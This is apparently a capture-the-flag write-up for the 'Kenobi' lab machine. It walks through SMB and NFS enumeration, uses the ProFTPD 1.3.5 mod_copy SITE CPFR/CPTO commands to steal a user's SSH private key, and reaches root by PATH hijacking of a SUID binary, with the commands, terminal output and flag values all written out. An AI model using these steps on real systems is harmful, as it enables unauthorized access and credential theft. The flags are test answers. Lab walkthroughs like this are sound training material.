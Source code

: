 # Kenobi

Samba is the standard Windows interoperability suite of programs for Linux and Unix. It allows end users to access and use files, printers and other commonly shared resources on a companies intranet or internet. Its often referred to as a network file system.

Samba is based on the common client/server protocol of Server Message Block (SMB). SMB is developed only for Windows, without Samba, other computer platforms would be isolated from Windows machines, even if they were part of the same network.

![](img/smb-ports.png)

## Enum

### SMB

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.94.124
smbclient -L //10.10.94.124/ -U '%'
smbclient //10.10.94.124/anonymous -U '%'
smbget -R smb://<ip>/anonymous
```

### RPC

```bash
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.94.124
```

### FTP

```console
root@kali:~/thm/kenobi# nc $TARGET 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.94.124]
^C

root@kali:~/thm/kenobi# searchsploit ProFTPD 1.3.5
------------------------------------------ ---------------------------------
 Exploit Title                            |  Path
------------------------------------------ ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execut | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command | linux/remote/36803.py
ProFTPd 1.3.5 - File Copy                 | linux/remote/36742.txt
------------------------------------------ ---------------------------------
Shellcodes: No Results
```

## Foothold

```console
root@kali:~/thm/kenobi# nc $TARGET 21
220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.94.124]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful

root@kali:~/thm/kenobi# cp /mnt/kenobiNFS/tmp/id_rsa .
root@kali:~/thm/kenobi# chmod +600 id_rsa 
root@kali:~/thm/kenobi# ssh -i id_rsa kenobi@$TARGET
kenobi@kenobi:~$ cat user.txt 
d0b0f3f53b6caa532a83915e19224899
```

## Privesc

```console
kenobi@kenobi:~$ find / -perm -u=s -type f 2>/dev/null
/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6
kenobi@kenobi:~$ 
kenobi@kenobi:~$ strings /usr/bin/menu 
/lib64/ld-linux-x86-64.so.2                                                 
libc.so.6  
setuid                                
__isoc99_scanf    
puts         
__stack_chk_fail
printf          
system      
__libc_start_main 
__gmon_start__    
GLIBC_2.7                             
GLIBC_2.4      
GLIBC_2.2.5                           
UH-`             
AWAVA 
AUATL                                 
[]A\A]A^A_                            
***************************************
1. status check                       
2. kernel version
3. ifconfig   
** Enter your choice :
curl -I localhost
uname -r       
ifconfig   
 Invalid choice
...
kenobi@kenobi:~$ cp /bin/bash /tmp/ifconfig
kenobi@kenobi:~$ ls -lah /tmp/ifconfig 
-rwxr-xr-x 1 kenobi kenobi 1014K Jun 10 11:38 /tmp/ifconfig
kenobi@kenobi:~$ echo $PATH
/home/kenobi/bin:/home/kenobi/.local/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
kenobi@kenobi:~$ export PATH=/tmp:$PATH
kenobi@kenobi:~$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :3
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

root@kenobi:~# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
root@kenobi:~# cd /root
root@kenobi:/root# ls
root.txt
root@kenobi:/root# cat root.txt
177b3cd8562289f37382721c28381f02
```